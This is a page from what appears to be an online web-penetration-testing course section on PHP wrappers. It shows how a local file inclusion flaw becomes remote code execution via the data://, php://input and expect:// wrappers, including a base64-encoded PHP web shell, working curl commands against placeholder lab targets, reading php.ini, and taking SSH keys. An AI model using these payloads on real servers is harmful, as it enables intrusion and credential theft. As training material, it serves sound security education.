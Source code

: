 
<h1>PHP Wrappers</h1>
<p>So far in this module, we have been exploiting file inclusion vulnerabilities to disclose local files through various methods. From this section, we will start learning how we can use file inclusion vulnerabilities to execute code on the back-end servers and gain control over them.</p>
<p>We can use many methods to execute remote commands, each of which has a specific use case, as they depend on the back-end language/framework and the vulnerable function's capabilities. One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session. For example, we may find the database password in a file like <code>config.php</code>, which may match a user's password in case they re-use the same password. Or we can check the <code>.ssh</code> directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (<code>id_rsa</code>) and use it to SSH into the system.</p>
<p>Other than such trivial methods, there are ways to achieve remote code execution directly through the vulnerable function without relying on data enumeration or local file privileges. In this section, we will start with remote code execution on PHP web applications. We will build on what we learned in the previous section, and will utilize different <code>PHP Wrappers</code> to gain remote code execution. Then, in the upcoming sections, we will learn other methods to gain remote code execution that can be used with PHP and other languages as well.</p>
<hr/>
<h2>Data</h2>
<p>The <a href="https://www.php.net/manual/en/wrappers.data.php">data</a> wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (<code>allow_url_include</code>) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.</p>
<h4>Checking PHP Configurations</h4>
<p>To do so, we can include the PHP configuration file found at (<code>/etc/php/X.Y/apache2/php.ini</code>) for Apache or at (<code>/etc/php/X.Y/fpm/php.ini</code>) for Nginx, where <code>X.Y</code> is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the <code>base64</code> filter we used in the previous section, as <code>.ini</code> files are similar to <code>.php</code> files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:</p>
<pre><code class="language-shell-session">[!bash!]$ curl "http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
&lt;!DOCTYPE html&gt;

&lt;html lang="en"&gt;
...SNIP...
 &lt;h2&gt;Containers&lt;/h2&gt;
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
&lt;p class="read-more"&gt;
</code></pre>
<p>Once we have the base64 encoded string, we can decode it and <code>grep</code> for <code>allow_url_include</code> to see its value:</p>
<pre><code class="language-shell-session">[!bash!]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
</code></pre>
<p>Excellent! We see that we have this option enabled, so we can use the <code>data</code> wrapper. Knowing how to check for the <code>allow_url_include</code> option can be very important, as <code>this option is not enabled by default</code>, and is required for several other LFI attacks, like using the <code>input</code> wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.</p>
<h4>Remote Code Execution</h4>
<p>With <code>allow_url_include</code> enabled, we can proceed with our <code>data</code> wrapper attack. As mentioned earlier, the <code>data</code> wrapper can be used to include external data, including PHP code. We can also pass it <code>base64</code> encoded strings with <code>text/plain;base64</code>, and it has the ability to decode them and execute the PHP code.</p>
<p>So, our first step would be to base64 encode a basic PHP web shell, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ echo '&lt;?php system($_GET["cmd"]); ?&gt;' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
</code></pre>
<p>Now, we can URL encode the base64 string, and then pass it to the data wrapper with <code>data://text/plain;base64,</code>. Finally, we can use pass commands to the web shell with <code>&amp;cmd=&lt;COMMAND&gt;</code>:
<img alt="Shipping containers and cranes at a port with a PHP notice about an undefined variable." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&amp;cmd=id" src="/storage/modules/23/data_wrapper_id.png"/></p>
<p>We may also use cURL for the same attack, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ curl -s 'http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&amp;cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<hr/>
<h2>Input</h2>
<p>Similar to the <code>data</code> wrapper, the <a href="https://www.php.net/manual/en/wrappers.php.php">input</a> wrapper can be used to include external input and execute PHP code. The difference between it and the <code>data</code> wrapper is that we pass our input to the <code>input</code> wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the <code>input</code> wrapper also depends on the <code>allow_url_include</code> setting, as mentioned earlier.</p>
<p>To repeat our earlier attack but with the <code>input</code> wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:</p>
<pre><code class="language-shell-session">[!bash!]$ curl -s -X POST --data '&lt;?php system($_GET["cmd"]); ?&gt;' "http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=php://input&amp;cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use <code>$_REQUEST</code>). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <code>&lt;\?php system('id')?&gt;</code>)</p>
</div>
</div>
<hr/>
<h2>Expect</h2>
<p>Finally, we may utilize the <a href="https://www.php.net/manual/en/wrappers.expect.php">expect</a> wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.</p>
<p>However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with <code>allow_url_include</code> earlier, but we'd <code>grep</code> for <code>expect</code> instead, and if it is installed and enabled we'd get the following:</p>
<pre><code class="language-shell-session">[!bash!]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
</code></pre>
<p>As we can see, the <code>extension</code> configuration keyword is used to enable the <code>expect</code> module, which means we should be able to use it for gaining RCE through the LFI vulnerability. To use the expect module, we can use the <code>expect://</code> wrapper and then pass the command we want to execute, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ curl -s "http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<p>As we can see, executing commands through the <code>expect</code> module is fairly straightforward, as this module was designed for command execution, as mentioned earlier. The <a href="/module/details/134">Web Attacks</a> module also covers using the <code>expect</code> module with XXE vulnerabilities, so if you have a good understanding of how to use it here, you should be set up for using it with XXE.</p>
<p>These are the most common three PHP wrappers for directly executing system commands through LFI vulnerabilities. We'll also cover the <code>phar</code> and <code>zip</code> wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                    </span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
</div>
</div>
<div>
<div>
<label class="module-question" for="91"><span class="badge badge-soft-dark font-size-14 mr-2">+ 1 <i class="fad fa-cube text-success"></i></span> Try to gain RCE using one of the PHP wrappers and read the flag at /
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control bg-color-blue-nav" color="green" id="answer91" maxlength="191" placeholder="Submit your answer here..." type="text"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<p class="mb-0 mr-3 mt-1 font-size-14 font-medium text-white" id="questionStreakPointsText-91">
                                        +10 Streak pts</p>
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="91" id="btnAnswer91">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
